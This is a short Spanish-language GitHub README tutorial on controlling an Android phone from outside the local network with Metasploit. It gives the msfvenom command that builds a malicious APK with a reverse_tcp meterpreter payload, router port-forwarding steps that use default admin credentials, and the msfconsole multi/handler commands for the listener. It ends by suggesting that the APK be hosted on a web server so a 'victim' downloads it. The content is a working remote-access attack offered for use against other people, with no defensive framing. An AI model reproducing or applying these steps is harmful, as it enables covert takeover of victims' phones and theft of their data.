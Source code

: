 # Msfvenom fuera de Red

![Informatica](Img/logo.jpg)

Muchos deebn saber como controlar un dispositivo con Msfvenom dentro de red pero algunos no saben
como controlar un dispositivo fuera de nuestra red local. Aqui te enseñaremos como controlar un dispositivo
con Msfvenom fuera de nuestra red local.

Primero iremos a nuestro kali linux y crearemos una aplicacion maliciosa con msfvenom y pondremos
nuestra IP publica:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=< TU IP PUBLICA > LPORT=4444 -o
android.apk
```

Luego iremos a nuestro navegador y escribiremos la direccion de nuestro router, en la mayoria es
192.168.1.1 y para iniciar secion por defecto admin.

Luego buscaremos donde diga reenvio de puetos:

![Informatica](Img/puertos.jpg)

abriremos el puerto 4444 y pondremos la IP de nuestro Kali Linux.

Ahora abriremos una nueva terminal en Kali Linux y escribiremos msfconsole luego ingresaremos los
siguientes comandos:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST IP kali linux
set LPORT 4444
exploit
```

![Informatica](Img/exploit.jpg)

Luego instalaremos la aplicacion maliciosa que creamos en nuestro celular víctima y la abriremos. Ahora
iremos a nuestro Kali Linux y veremos que tenermos una seción de meterpreter, ya estamos dentro de
nuestro celular víctima. Para ayudarnos ingresaremos help y podemos ver una serie de informacion de lo que
podemos hacer dentro de nuestro celular víctima.

![Informatica](Img/help.jpg)

**NOTA:** Pueden subir la aplicacion maliciosa a un servidor web como apache2, y hacer que la victima
descargue la aplicacion desde el servidor web.